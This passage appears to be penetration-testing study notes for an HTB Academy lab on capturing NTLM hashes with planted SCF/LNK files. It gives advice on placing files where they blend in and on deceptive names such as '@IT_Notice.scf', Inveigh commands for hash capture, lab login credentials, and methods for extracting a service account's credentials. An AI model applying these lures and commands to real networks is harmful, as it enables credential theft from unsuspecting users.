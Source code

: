 ### File Placement Strategy
```cmd
# Optimal placement:
1. Recently accessed directories
2. Folders with regular user traffic
3. Shared drives with multiple users
4. Directories with existing files (blend in)
5. Desktop folders of high-privilege users
```

### Naming Conventions
```cmd
# Effective file names:
@Inventory.scf          # @ for top listing
@Updates.lnk           # System-related names
@Security_Policy.lnk   # Official-sounding documents
@Quarterly_Report.lnk  # Business documents
@IT_Notice.scf         # IT department files
```

## 🔧 Alternative Hash Capture Tools

### Responder Alternatives
```bash
# Inveigh (PowerShell-based):
Import-Module Inveigh.ps1
Invoke-Inveigh -ConsoleOutput Y -LLMNR Y -NBT Y -mDNS Y

# InveighZero (.NET version):
.\InveighZero.exe

# All tools capture NTLM hashes from SMB authentication
```

### Tool Comparison
```cmd
# Responder:    # Python-based, Linux preferred
# Inveigh:      # PowerShell, Windows native
# InveighZero:  # .NET compiled, Windows portable
```

## 🎯 HTB Academy Lab Solution

### Lab Environment
```cmd
# Access: RDP to target with htb-student:HTB_@cademy_stdnt!
# Objective: Obtain cleartext credentials for SCCM_SVC user
```

### SCCM_SVC Credential Extraction
```cmd
# Method 1: Process monitoring for scheduled tasks
# SCCM often runs scheduled tasks with service accounts

# Method 2: SCF/LNK file placement in SCCM-related shares
# SCCM shares are frequently accessed by administrators

# Method 3: Traffic capture during SCCM operations
# SCCM communications may contain credentials

# Method 4: File share enumeration for SCCM config files
# SCCM configuration files may contain service account info
```